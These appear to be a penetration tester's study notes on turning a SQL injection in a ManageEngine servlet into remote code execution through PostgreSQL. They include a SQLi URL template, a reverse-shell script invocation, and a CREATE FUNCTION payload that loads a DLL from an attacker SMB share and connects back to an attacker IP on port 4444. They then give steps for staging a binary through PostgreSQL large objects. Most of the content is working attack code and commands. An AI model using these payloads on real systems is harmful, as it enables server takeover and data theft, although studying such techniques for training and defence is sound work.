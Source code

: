 ```Python

    sqli_url = "https://{}/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;{};--".format(server, "%s")
    create_udf_func(sqli_url)>)
```
```
python3 revshell.py manageengine:8443 192.168.45.216 4444
```
rev_shell_pg_extensions.py

Example working:

```
CREATE OR REPLACE FUNCTION plzwork(text, integer) RETURNS void AS $$\\192.168.45.216\awae\rev_shell.dll$$, $$connect_back$$ LANGUAGE C STRICT;SELECT plzwork($$192.168.45.216$$, 4444);
```

Need a SMB Share to download
![[5e462ec2003ec7b2d69439e0f95700ca-Picture29.png]]
### More Shells

#### PostgreSQL Large Objects
* Large object which is used for storing data such as a PDF document. 
* The files can be copied back to the file system as they were. 

1. Create a large object that will hold our binary payload (our custom DLL file we created in the previous section)
2. Export that large object to the remote server file system
3. Create a UDF that will use the exported DLL as source
4. Trigger the UDF and execute arbitrary code

Select the large object you want to import 
```PSQL
select lo_import('C:\\Windows\\win.ini');
```
```PSQL
\lo_list
```
Importing the `win.ini` file into the database and as a return value we are provided with the `loid` of the large object.
A `loid` is a integral value that we need to reference when exporting large objects.
`lo_import` allows us to set the `loid` to whatever we want
```PSQL
select lo_import('C:\\Windows\\win.ini', 1337);
```
The large objects are stored in the `pg_largeobject` table.
```PSQL
select loid, pageno from pg_largeobject;
```
```
 loid | pageno
------+--------
 1337 |      0
```
* When a large object is created they are imported and split into 2KB chunks which is stored individually in the `pg_largeobject` table:
*The amount of data per page is defined to be LOBLKSIZE (which is currently BLCKSZ/4, or typically 2 kB).*
```
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
```
 loid | pageno |           encode
------+--------+----------------------------
 1337 |      0 | ; for 16-bit app support\r+
      |        | [fonts]\r                 +
      |        | [extensions]\r            +
```